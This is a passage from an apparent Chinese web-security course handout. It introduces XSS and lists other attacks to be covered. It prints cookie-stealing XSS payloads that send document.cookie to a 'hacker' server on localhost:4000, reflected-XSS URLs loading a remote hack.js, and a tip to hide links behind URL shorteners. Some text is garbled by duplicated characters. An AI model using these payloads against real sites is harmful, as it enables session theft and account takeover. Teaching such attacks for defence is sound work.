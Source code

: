 # 常见Web攻击

## 课堂⽬标

掌握XSS (实施 + 防御) 

掌握CSRF (实施 + 防御) 

掌握点击劫持 (实施 + 防御) 

掌握SQL注⼊ (实施 + 防御) 

掌握OS注⼊ (实施 + 防御) 

了解请求劫持

了解DDOS



## 知识要点

### 1、XSS

XSS 攻击的基本逻辑：在 URL 中插入一段 script 脚本，然后脚本的 src 设置成另一个网址（黑客网址）或者设置一段 JS 代码，然后插入一张图片，图片的 src 中包括当前用户的登录信息（document.cookie）这样在黑客平台上可以获取到用户的 cookie，然后可以直接登录用户的账户。图片通常会加载，所以写入图片的 src 中。 `<img src="http://localhost:4000?test:${document.cookie}"/>` 类似这样的脚本。

黑客发给别人一个网址，然后点击网址进入的界面中，就可能有非法的脚本。



Cross Site Scripting 跨站脚本攻击

XSS (Cross-Site Scripting)，跨站脚本攻击，因为缩写和 CSS重叠，所以只能叫 XSS。跨站脚本攻 击是指通过存在安全漏漏洞洞的Web⽹网站注册⽤户的浏览器器内运⾏⾮非法的⾮非本站点HTML标签或 JavaScript进⾏的⼀一种攻击。

~~~js
var img = new Image();
img.src = 'http://localhost:4000/img?c=' + document.cookie;
~~~

加入这段代码后，会将浏览器的 cookie 获取到，然后图片会请求 4000 端口（黑客端口）可以解析一下获取到 cookie，黑客就可以进行正常的登录了

~~~js
localhost:3000/?from=<script%20src="http://localhost:4000/hack.js"></script>
~~~

跨站脚本攻击有可能造成以下影响:

利利⽤虚假输⼊表单骗取⽤户个⼈人信息。

利⽤脚本窃取⽤户的Cookie值，被害者在不知情的情况下，帮助攻击者发送恶意请求。

显示伪造的⽂章或图片。

### XSS攻击分类

- 反射型 - url参数直接注⼊（攻击一个用户的账户）

~~~js
// 普通
http://localhost:3000/?from=china

// alert尝试
http://localhost:3000/?from=<script>alert(3)</script>

// 获取Cookie
http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"> </script>

// 短域名伪造(用户无法直接看清楚原来的长网站中是否有 script 标签)
https://dwz.cn/console/operation 百度随便搜索就有

~~~